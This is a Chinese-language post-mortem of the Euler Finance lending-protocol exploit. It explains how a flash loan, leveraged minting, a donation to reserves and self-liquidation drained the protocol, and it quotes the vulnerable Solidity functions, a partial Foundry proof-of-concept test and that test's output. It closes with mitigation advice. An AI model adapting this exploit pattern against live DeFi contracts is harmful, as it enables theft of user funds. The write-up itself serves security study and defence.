

# Euler Finance 攻击事件分析

<aside>
💡 loan protocol、资不抵债问题、缺乏持仓健康检查

</aside>

## 前置知识

Euler Finance 是一个**借贷协议**，我们首先关注以下的几个概念：

1. **质押与借贷**
   - **eToken 代表资产权：**当借贷人在 Euler 上存入流动性池时，他们将获得带有利息的 ERC20 eToken 作为回报，这些代币可以随时兑换为他们在流动性池中的基础资产份额，只要池中有未被借出的代币（类似于 Compound 的 cToken）。借款人从池中取出流动性，并以利息还回。
   - **dToken 代表债务：**与 Aave 的债务代币类似，Euler 还使用 ERC20 兼容接口（称为 dToken）在协议上代币化债务。dToken 接口允许构建仓位，而无需与基础资产进行交互，并可用于创建包含债务义务的衍生产品。
2. **流动性参数**
   - **目标健康系数：**默认的目标健康系数为 1.25，这个特性被称为软清算。当用户由于其风险调整后的负债超过其风险调整后的抵押品而违反规定时，他的健康系数将低于 1。然而，如果有清算人介入，他能从违规者那里获取足够的债务和资产，使其健康系数达到 1.25
   - **最大清算折扣**：默认设置为 20%。当用户需要被清算时，他的一些债务（dToken）和资产（eToken）将被转移到清算人员名下，从而导致健康分数变为 1.25。

## 攻击事件分析

### 攻击概述

攻击者通过闪电贷借出资金，通过将持有资金捐赠给储备地址导致触发软清算（捐赠后未对捐赠账户进行检查），攻击者又作为清算人的角色，将烂账以更低的价格清算。

此次造成攻击的原因是，Euler Finance 缺乏**对用户持仓健康状况**的检查机制，即缺乏对用户负债与资产比例的监控。

### **基本信息**

- 可参考的链接：
  - [phalcon](https://app.blocksec.com/explorer/tx/eth/0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d)
  - [peckshield 简单分析](https://twitter.com/peckshield/status/1635229594596036608)
- 攻击基本信息

  ```
  @KeyInfo - Total Lost : $ ~200M

  Attack Tx(6笔):
  https://etherscan.io/tx/0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d
  https://etherscan.io/tx/0x71a908be0bef6174bccc3d493becdfd28395d78898e355d451cb52f7bac38617
  https://etherscan.io/tx/0x62bd3d31a7b75c098ccf28bc4d4af8c4a191b4b9e451fab4232258079e8b18c4
  https://etherscan.io/tx/0x465a6780145f1efe3ab52f94c006065575712d2003d83d85481f3d110ed131d9
  https://etherscan.io/tx/0x3097830e9921e4063d334acb82f6a79374f76f0b1a8f857e89b89bc58df1f311
  https://etherscan.io/tx/0x47ac3527d02e6b9631c77fad1cdee7bfa77a8a7bfd4880dccbda5146ace4088f

  Attacker Address1(EOA): 0x5f259d0b76665c337c6104145894f4d1d2758b8c
  Attacker Address2(EOA): 0xb2698c2d99ad2c302a95a8db26b08d17a77cedd4

  Attack Contract Address1: 0xebc29199c817dc47ba12e3f86102564d640cbf99
  Attack Contract Address2: 0x036cec1a199234fC02f72d29e596a09440825f1C

  Vulnerable Address:
  ```

### 攻击者行为分析



如上图我们可以看见，

1. 攻击者通过调用攻击合约 1 查看 Euler 借贷协议存在 DAI 的数量，之后从 **Aave 闪电贷**借出 30M DAI；
2. 创建两个子攻击合约（借款合约 6c72 以及用来软清算的合约 a0b3），并将 30MDAI 转给 Euler Exploiter Contract 借款合约 6c72；
3. 之后将 20MDAI 质押给 Euler，获取 19.568124M **eDAI**
4. 进行借贷操作，获得 195.681243M eDAI(**资产权**) 和 200M dDAI(**债务**)，此时攻击合约 6c72 有将近 215M eDAI 和 200M dDAI，以及 10M DAI；
5. 偿还 10M DAI，此时攻击合约 6c72 持有 215 M eDAI 和 190M dDAI；
6. 进行借贷操作，获得 195.681243M eDAI(**资产权**) 和 200M dDAI(**债务**)，此时攻击合约 6c72 有将近 410M eDAI 和 390M dDAI；
7. 攻击合约 6c72 通过将 100M**捐赠**给 Euler， 此时攻击合约 6c72 (310M) 资产 / (390M) 债务 < 1，属于爆仓的情况，可以被其他人启动清算。
8. 合约 a0b3 清算借款合约 6c72 的贷款。

### 攻击原理分析

在正式介绍攻击原理之前，我们需要先了解 Euler Finance 借贷协议的运作机制。

Euler 是一个类似于 Compound 或 Aave 的借贷平台。eToken 代表**资产权**，dToken 代表**债务**

- 存款：用户向 Euler 存款，获得代表资产权的 eToken。
- 借款：用户通过 mint eToken 来获取杠杆，获取 eToken，以及代表债务的 dToken。
- 清算：借款人必须要有良好的持仓健康度，持仓健康度与其资产权、债务息息相关。如果用户的抵押品价值低于资产权与债务价值比例，平台将允许其他用户以一定的折扣对他们进行清算，即出售其抵押品以偿还债务。

首先关注清算函数`liquidate`

```
function liquidate(address violator, address underlying, address collateral, uint repay, uint minYield) external nonReentrant {
  // 确保违规者的流动性状态没有被延迟。
  require(accountLookup[violator].deferLiquidityStatus == DEFERLIQUIDITY__NONE, "e/liq/violator-liquidity-deferred");
  // 获取清算人地址
  address liquidator = unpackTrailingParamMsgSender();
  emit RequestLiquidate(liquidator, violator, underlying, collateral, repay, minYield);
  // 更新平均流动性
  updateAverageLiquidity(liquidator);
  updateAverageLiquidity(violator);
  // 初始化一个本地结构体 LiquidationLocals 来保存清算参数
  LiquidationLocals memory liqLocs;
  liqLocs.liquidator = liquidator;
  liqLocs.violator = violator; // 可能存在抵押违规的账户地址
  liqLocs.underlying = underlying;
  liqLocs.collateral = collateral;
  // 计算清算机会
  computeLiqOpp(liqLocs);
  // 根据计算的参数、偿还数量和最小收益执行清算操作
  executeLiquidation(liqLocs, repay, minYield);
}

function computeLiqOpp(LiquidationLocals memory liqLocs) private {
   ...
   // 获取账户资产权以及债务情况
  (uint collateralValue, uint liabilityValue) = getAccountLiquidity(liqLocs.violator);

  // 检查流动性和健康评分
  if (liabilityValue == 0) {
      liqOpp.healthScore = type(uint).max;
      return; // no violation
  }

  liqOpp.healthScore = collateralValue * 1e18 / liabilityValue;

  if (collateralValue >= liabilityValue) {
      return; // no violation
  }
  ...
}
```

我们可以看到只需要清算人的持仓健康度不足就能被任意账户清算。一个合格的借贷协议需要在每个关键时刻对用户持仓健康度的检查，不然可能会出现用户自行爆仓，又进行自我清算的情况，正如此次攻击事件一样。

根据分析此次攻击交易函数调用，以及审查相关合约，Euler 出现的问题在函数`donateToReserves`，该函数实现了用户将资产余额捐赠给储备金的功能，实现了用户将特定金额的余额捐赠给储备金的功能。它通过检查和更新账户余额、触发相关事件以及记录资产状态，确保捐赠过程的安全性和透明度。

```
logic contract address: https://etherscan.io/address/0xbb0d4bb654a21054af95456a3b29c63e8d1f4c0a#code
function donateToReserves(uint subAccountId, uint amount) external nonReentrant {
    // 从 CALLER() 函数获取相关信息，包括底层资产地址、资产存储、代理地址和消息发送者
    (address underlying, AssetStorage storage assetStorage, address proxyAddr, address msgSender) = CALLER();
    // 获取子账户地址
    address account = getSubAccount(msgSender, subAccountId);

    // 更新账户的平均流动性
    updateAverageLiquidity(account);
    emit RequestDonate(account, amount);

    AssetCache memory assetCache = loadAssetCache(underlying, assetStorage);

    // 获取用户原始余额
    uint origBalance = assetStorage.users[account].balance;
    uint newBalance;

    // 如果捐赠金额为 uint 最大值，则捐赠全部余额
    if (amount == type(uint).max) {
        amount = origBalance;
        newBalance = 0;
    } else {
        // 检查用户余额是否足够捐赠
        require(origBalance >= amount, "e/insufficient-balance");
        // 计算新的余额
        unchecked { newBalance = origBalance - amount; }
    }

    // 更新用户余额
    assetStorage.users[account].balance = encodeAmount(newBalance);
    // 更新储备金余额
    assetStorage.reserveBalance = assetCache.reserveBalance = encodeSmallAmount(assetCache.reserveBalance + amount);

    emit Withdraw(assetCache.underlying, account, amount);
    emit ViaProxy_Transfer(proxyAddr, account, address(0), amount);
    // 记录资产状态
    logAssetStatus(assetCache);
}

```

乍一看，似乎整体流程并没有太大问题，但是仔细分析，我们可以发现`donateToReserves`函数是否处于清算状态，导致直接触发软清算机制。同时，软清算采用的是动态更新折扣，根据借款人的健康状况（即抵押品价值相对于债务的比率）动态调整清算折扣。这为攻击者创造了有利可图的套利机会（创建资不抵债的状况，通过其他合约实现自我清算），使他们可以吸走大量抵押品，而无需抵押品或偿还债务。

## PoC
完整的PoC在[这里](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/Security/PoC/EulerFinance.t.sol)。
重要部分如下：
```
contract EulerFinancePoC is Test { // 模拟攻击
   ...  
    function testExploit_Euler() public {
        ...
        console.log("-------------------------------- Start Exploit ----------------------------------");
        AaveLendingPool.flashLoan(address(this), assets, amounts, modes, address(this), params, 0);

        console.log("-------------------------------- After Exploit ----------------------------------");
        uint256 eulerTokenAfter = DAI.balanceOf(EulerProtocol);
        emit log_named_decimal_uint ("DAI.balanceOf(EulerProtocol):", eulerTokenAfter, 18);
        emit log_named_decimal_uint ("EulerProtocol loss:", eulerToken - eulerTokenAfter, 18);
    }

    function executeOperation(
        address[] calldata assets, 
        uint256[] calldata amounts, 
        uint256[] calldata premiums, 
        address initiator, 
        bytes calldata params
    ) external returns (bool) {
        DAI.approve(address(AaveLendingPool), type(uint256).max);
        borrowContract = new Borrow();
        liquidatorContract = new liquidator();
        DAI.transfer(address(borrowContract), DAI.balanceOf(address(this)));
        // 制造烂账
        borrowContract.attack_step1(address(borrowContract), address(liquidatorContract));
        // 自我清算
        liquidatorContract.attack_step2(address(borrowContract), address(liquidatorContract));
        return true;
    }
}

```
运行结果如下：

```
[PASS] testExploit_Euler() (gas: 1799717)
Logs:
  --------------------------------- Pre-work -------------------------------------
  Tx: 0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d
  DAI.balanceOf(EulerProtocol):: 8904507.348306697267428294
  -------------------------------- Start Exploit -----------------------------------
  First borrow:
  eDAI balance:: 215249368.558920172305404396
  dDAI balance:: 200000000.000000000000000000
  Second borrow:
  eDAI balance:: 410930612.703393056219408393
  dDAI balance:: 390000000.000000000000000000
  After donate:
  eDAI balance: 310930612.703393056219408393
  dDAI balance: 390000000.000000000000000000
  -------------------------------- After Exploit ----------------------------------
  DAI.balanceOf(EulerProtocol): 0.000000000000000000
  EulerProtocol loss: 8904507.348306697267428294
```

## 安全建议

1. 借贷协议在涉及用户资金的函数里加入必要的健康检查，在复杂交易（如跨多个市场或资产的交易）中，逐步检查每个步骤的健康因子，确保整个交易过程中用户的健康因子始终处于安全范围内。
2. 清算折扣动态调整的限额，同时可以考虑根据用户的健康因子设置折扣梯度，避免折扣因子在短时间内剧烈波动。

## 参考链接

1. [euler-finance-attack-how-it-happened-and-what-can-be-learned](https://cointelegraph.com/news/euler-finance-attack-how-it-happened-and-what-can-be-learned)
2. https://twitter.com/BlockSecTeam/status/1635262150624305153